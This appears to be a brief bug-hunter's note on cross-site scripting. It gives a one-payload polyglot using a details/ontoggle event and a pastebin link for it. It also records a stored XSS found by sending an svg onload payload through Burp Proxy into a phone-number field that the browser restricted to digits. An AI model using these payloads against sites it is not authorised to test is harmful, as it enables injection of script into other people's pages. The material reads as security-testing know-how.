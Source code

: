 ---------------------------------------------
xss Payloads:
<details++on+/ontoggle%3d1%5econfirm(document.domain)+open//

Test multiple XSS scenarios with ONE payload.  

https://pastebin.com/4zADMK1u
-----------------------------------------------
Bug: Stored XSS 

Tried to input XSS payload through proxy.

Phone Number Field-
Through Browser: Only Numeric Digits allowed (Alphabet and Special Characters Blocked)

Through Burp Proxy: 123"><svg+onload=prompt(document.domain)> (Stored XSS)
---------------------------------------------------------
